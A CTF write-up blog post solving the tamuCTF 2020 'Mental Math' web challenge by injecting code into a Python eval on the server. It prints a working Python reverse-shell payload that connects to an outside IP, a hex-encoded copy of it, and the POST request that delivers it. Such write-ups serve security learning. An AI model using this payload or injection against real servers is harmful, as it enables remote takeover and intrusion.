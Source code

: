 ```yaml
---
layout: blogpost
title:  "tamuCTF - Exploiting Python Eval"
date:   2020-03-23 03:32:01 -0300
categories: ctf
---
```


## Category: 
Web
## Difficulty: 
Hard
## Challenge: 
Mental Math
## Description: 
My first web app, check it out!
<br>
## Solution:

The application presents you with a math question and expects an answer. The interesting thing is that it makes an ajax call very often (any time it detects you input something to the box) and looks to see if you have submitted the answer to its question of course you would normally answer the question. When you do, it will accept your answer and spit another one out. It does so like this
<br>
```javascript
function submitProblem() {
    $.post("/ajax/new_problem", {'problem': $("#problem").html(), 'answer': $('#answer').val()}, function ( data ) {
      if (data.correct) {
        $('#problem').html(data.problem);
        $('#answer').val('');
      }
    });
  }
$(document).ready(function() {
  $("#answer").on('input', submitProblem);
  submitProblem();
});
```
<br>
What's even more interesting though is that youre able to respond with the servers question back at it... so when you do something like
<br>
```javascript
$.post("/ajax/new_problem", {'problem': 0+0, 'answer': 0+0}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
you get a response object saying that the answer was correct...
This means something on the back end must be executing our inputs on the server to test the parameters equality. This is when I noticed there was a comment on the HTML page containing the chars "% }{ %" which are used in Flask and Django. Python ```eval() or exec()```? In order to try and abuse this I tried to inject code with a request like
<br>
```javascript
$.post("/ajax/new_problem", 
  {'problem': 0+0, 'answer': "0;ls"}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
and many other queries, most of which didnt output anything or gave me a dreaded "Internal Server Error".<br>
The most interesting part of the Internal Server error was that it seemed to occur EVERY time under a single condition: I sent a post request using the console, and answer's value contained SOMETHING that was not a number. (different things I did to test this were sending the same request with $.ajax,$.get,$.post, python requests, and burpsuite)<br>
To see if this was simply a WAF looking for anything non-numeric, I base64 encoded a string with and without numeric strings, and sent both in the console with a post request with the format answer : btoa(string). As you'd expect, the string that was not purely numeric failed but the base64 encoded number still returned true whenever the query would've been true.<br>
After a lot of failures at injecting commands (they seemed to work but I wasnt getting output) I ended up converting my payloads to hex and trying to execute them with the same results as base64 encoding them.<br>
Finally I decided to try a reverse shell as a payload if I wasnt able to see the output, but was still able to execute code. After the ascii payload didnt work, the base64 encoded payload didnt work, and a hex payload didnt work, I realized that I had only been trying to inject the payload to the answer parameter because thats where I first noticed the vuln, but unless there was a predefined table for all of the possible math questions this app might give you, the problem must have also been calculating its own answer when an answer was compared to it.
<br>
Encoding this string into hex gave the payload
 <br>
```python
__import__('os').system("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"3.14.67.85\",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'")
```
<br>
<br>
```javascript
"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29"
```
<br>
I sent the post request while running a netcat listener on my local machine
<br>
```javascript
$.post("/ajax/new_problem", {"problem":"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29","answer":""}, function (data) {
      if (data.correct) {
          console.log(data);
      }
});
```
<br>
after sending the request we pop a reverse shell and get
<br>
![mental_math_flag](/assets/images/ctf/tamu2020/mental_math_flag.PNG)

